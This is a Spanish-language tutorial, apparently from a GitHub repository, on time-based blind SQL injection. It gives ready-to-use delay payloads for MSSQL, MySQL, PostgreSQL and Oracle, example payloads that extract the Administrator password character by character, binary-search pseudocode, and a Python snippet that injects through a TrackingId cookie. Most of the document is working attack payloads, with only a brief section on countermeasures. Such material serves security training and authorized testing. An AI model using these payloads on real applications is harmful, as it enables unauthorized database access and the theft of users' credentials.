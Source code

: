 # Blind SQLi mediante time delays

Cuando una aplicación **no revela** diferencias en la respuesta ante condiciones booleanas ni muestra errores (p. ej. captura/graba errores internamente), aún es posible inferir true/false observando **el tiempo** que tarda en responder.

Si puedes inyectar una expresión que **haga que la base de datos espere** (sleep/delay) sólo cuando una condición es verdadera, entonces el tiempo de respuesta indica la verdad de esa condición.

Esto convierte la diferencia de tiempo en un canal de exfiltración (un bit por petición).

---

## 1) Mecanismos por SGBD (funciones de delay y estructuras útiles)

Cada gestor tiene sus funciones y formas de condicionar la ejecución. A continuación las más usadas:

### Microsoft SQL Server (T-SQL)

* Función para retraso: **`WAITFOR DELAY 'hh:mm:ss'`**
* Estructura condicional típica:

  ```sql
  '; IF (condición) WAITFOR DELAY '0:0:10'--
  ```

  * Si `condición` es cierta, el servidor espera 10 segundos antes de continuar; la respuesta HTTP se retrasa.
* Otra variante (usar BEGIN...END si hace falta):

  ```sql
  '; IF (condición) BEGIN WAITFOR DELAY '0:0:10' END--
  ```

### MySQL

* Función para retraso: **`SLEEP(seconds)`**
* Variante básica:

  ```sql
  ' OR IF(condición, SLEEP(5), 0) #
  ```

  o

  ```sql
  ' OR (CASE WHEN condición THEN SLEEP(5) ELSE 0 END)--
  ```

  * `IF`/`CASE` ejecutan `SLEEP(5)` sólo si `condición` es verdadera.
  * Comentarios: en MySQL `--` requiere espacio posterior; `#` funciona como comentario con menos problemas.

### PostgreSQL

* Función para retraso: **`pg_sleep(seconds)`**
* Ejemplo:

  ```sql
  '; SELECT CASE WHEN (condición) THEN pg_sleep(5) ELSE pg_sleep(0) END;--
  ```

  o más sencillo:

  ```sql
  ' OR (SELECT CASE WHEN (condición) THEN pg_sleep(5) ELSE 0 END)--
  ```

### Oracle

* Función para retraso: **`DBMS_LOCK.SLEEP(seconds)`** (necesita privilegios en muchos entornos)
* Ejemplo:

  ```sql
  ' || (CASE WHEN condición THEN DBMS_LOCK.SLEEP(5) ELSE NULL END) -- (sintaxis depende del contexto)
  ```
* Nota: muchas instalaciones no permiten DBMS_LOCK o requieren permisos; si no está disponible, se usan otras técnicas (heavy queries, OAST).

### SQLite

* No hay `SLEEP` nativo, pero se puede inducir retrasos con funciones definidas por extensión o consultas costosas; sin embargo en la práctica SQLite no es frecuente en este tipo de vectores web.

---

## 2) Construcción general del payload

1. **Cierra correctamente** cualquier comilla abierta si la aplicación rodea tu input con `'` o `"`.
2. **Inserta una condición** que dependa de la información que quieres extraer (ej. `ASCII(SUBSTRING(...)) > mid`).
3. **Si la condición es verdadera**, ejecuta la función de delay (`SLEEP`, `pg_sleep`, `WAITFOR`), si no, ejecuta 0 o nada.
4. **Comenta el resto** de la consulta con `-- `, `#` o `/*...*/` según SGBD y contexto.

Formato genérico (ejemplos):

* **MSSQL**:

  ```sql
  '; IF (CONDICION) WAITFOR DELAY '0:0:10'--
  ```
* **MySQL**:

  ```sql
  ' OR IF(CONDICION, SLEEP(5), 0) --
  ```
* **Postgres**:

  ```sql
  ' OR (SELECT CASE WHEN (CONDICION) THEN pg_sleep(5) ELSE 0 END)--
  ```

---

## 3) Ejemplo práctico — extraer primer carácter del password

Supongamos tabla `users(username,password)` y que queremos saber si el primer carácter del password de `Administrator` es mayor que `m`.

### MSSQL

```sql
'; IF (SELECT COUNT(*) FROM Users WHERE username='Administrator' AND SUBSTRING(password,1,1) > 'm') = 1 WAITFOR DELAY '0:0:10'--
```

* Si el conteo = 1 → condición verdadera → WAITFOR retrasa 10s → respuesta lenta.

### MySQL

```sql
' OR IF((SELECT ASCII(SUBSTRING(password,1,1)) FROM users WHERE username='Administrator') > 109, SLEEP(5), 0) --
```

* `ASCII(...) > 109` equivale a `> 'm'`.

### PostgreSQL

```sql
' OR (SELECT CASE WHEN (ASCII(SUBSTRING(password FROM 1 FOR 1)) > 109) THEN pg_sleep(5) ELSE 0 END FROM users WHERE username='Administrator')--
```

### Oracle (si DBMS_LOCK disponible)

```sql
' || (CASE WHEN (ASCII(SUBSTR((SELECT password FROM users WHERE ROWNUM=1),1,1)) > 109) THEN DBMS_LOCK.SLEEP(5) ELSE NULL END) --
```

(ajusta concatenación y contexto según cómo la app inserte tu input)

---

## 4) Optimización: búsqueda binaria sobre ASCII (reduce peticiones)

En lugar de probar todos los caracteres alfabéticos secuencialmente, usa búsqueda binaria sobre el rango ASCII imprimible (por ejemplo 32–126).

* Cada petición determina si ASCII(char) > mid.
* Repite hasta aislar el valor (log2(95) ≈ 7 peticiones por carácter en promedio).

**Pseudocódigo lógico**:

```
lo = 32; hi = 126
while lo <= hi:
  mid = (lo+hi)//2
  payload = build_payload_check_ascii(pos, mid)
  if response_delayed(payload): lo = mid+1
  else: hi = mid-1
char = chr(lo or hi)
```

---

## 5) Medición y fiabilidad

* Define un **umbral**: si usas `SLEEP(5)`, considera la respuesta "lenta" si el *response_time* > (baseline + tolerance), p. ej. baseline + 3s.
* **Establece baseline** haciendo peticiones control: una con condición true conocida y otra con condition false conocida para comparar.
* **Reintentos**: haz 2–3 peticiones por verificación y promedia para evitar falsos positivos por jitter o tráfico de red.
* **Rate limiting**: no abuses; muchos delays largos generan ruido y pueden activar alertas o bloquear.

---

## 6) Automatización (herramientas y scripts)

* **sqlmap** soporta time-based (`--technique=T`) y puede automatizar extracción.
* **Burp Intruder** o **Repeater** para pruebas manuales.
* **Scripts Python** con `requests` para control total: medir tiempos, implementar búsqueda binaria, reintentos y tolerancia.

Ejemplo minimal en pseudocode Python:

```py
payload = "' OR IF(ASCII(SUBSTRING((SELECT password FROM users WHERE username='Administrator'),{pos},1)) > {mid}, SLEEP(5), 0) --"
resp = requests.get(url, cookies={'TrackingId': payload})
if resp.elapsed.total_seconds() > threshold: condition=True
```

---

## 7) Limitaciones y contramedidas

* **Latencia / ruido de red**: hace más difícil distinguir delays pequeños; usa SLEEP suficientemente grande y multiple reintentos.
* **WAF/IDS**: patrones con `SLEEP`, `WAITFOR` o `pg_sleep` suelen ser bloqueados o detectados.
* **Privilegios**: algunas funciones pueden requerir permisos (por ejemplo `DBMS_LOCK.SLEEP`).
* **Coste en tiempo**: extracción por time-based es lenta (una sola extracción completa de una contraseña larga puede tardar horas).

---



